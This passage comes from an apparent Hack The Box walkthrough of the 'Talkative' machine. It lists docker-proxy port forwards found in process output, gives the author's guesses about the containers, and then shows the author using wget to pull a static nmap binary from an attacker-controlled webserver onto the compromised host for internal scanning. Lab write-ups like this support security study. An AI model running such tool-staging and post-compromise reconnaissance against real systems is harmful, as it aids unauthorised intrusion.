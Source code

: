 ```bash
root        1839  0.0  0.1 1148844 2136 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6002 -container-ip 172.17.0.6 -container-port 80
root        1961  0.0  0.1 1149100 2024 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6003 -container-ip 172.17.0.7 -container-port 80
root        2068  0.0  0.0 1223984 1912 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6004 -container-ip 172.17.0.8 -container-port 80
root        2182  0.0  0.1 1148844 2080 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6005 -container-ip 172.17.0.9 -container-port 80
root        2293  0.0  0.1 1075112 2008 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6006 -container-ip 172.17.0.10 -container-port 80
root        2405  0.0  0.0 1222576 1888 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6007 -container-ip 172.17.0.11 -container-port 80
root        2520  0.0  0.0 1075112 2004 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6008 -container-ip 172.17.0.12 -container-port 80
root        2630  0.0  0.1 1296308 2076 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6009 -container-ip 172.17.0.13 -container-port 80
root        2747  0.0  0.1 1150252 2016 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6010 -container-ip 172.17.0.14 -container-port 80
root        2859  0.0  0.0 1222576 1940 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6011 -container-ip 172.17.0.15 -container-port 80
root        2969  0.0  0.0 1148844 1912 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6012 -container-ip 172.17.0.16 -container-port 80
root        3082  0.0  0.1 1148844 2084 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6013 -container-ip 172.17.0.17 -container-port 80
root        3199  0.0  0.0 1223984 2004 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6014 -container-ip 172.17.0.18 -container-port 80
root        3311  0.0  0.0 1075112 1924 ?        Sl   04:58   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6015 -container-ip 172.17.0.19 -container-port 80
```

- 172.18.0.2 is the jamovi container that I’ve already had a shell in.
- 172.17.0.3 is getting port 3000, so that’s likely the Rocket Chat instance.
- 172.17.0.4-19 are each getting a forward from a listening on 172.17.0.1, which is this host. This is a technique that HTB employs sometimes to keep players from spoiling and/or breaking the box for other players.

I’ll host a [statically compiled](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) `nmap` on my webserver and upload it to Talkative:

```bash
saul@talkative:~$ cd /dev/shm                     
saul@talkative:/dev/shm$ wget http://10.10.14.7:8000/nmap
--2025-03-14 14:31:51--  http://10.10.14.7:8000/nmap
Connecting to 10.10.14.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5944464 (5.7M) [application/octet-stream]
Saving to: ‘nmap’

nmap                100%[===================>]   5.67M  1.19MB/s    in 5.4s    

2025-03-14 14:31:57 (1.04 MB/s) - ‘nmap’ saved [5944464/5944464]
```
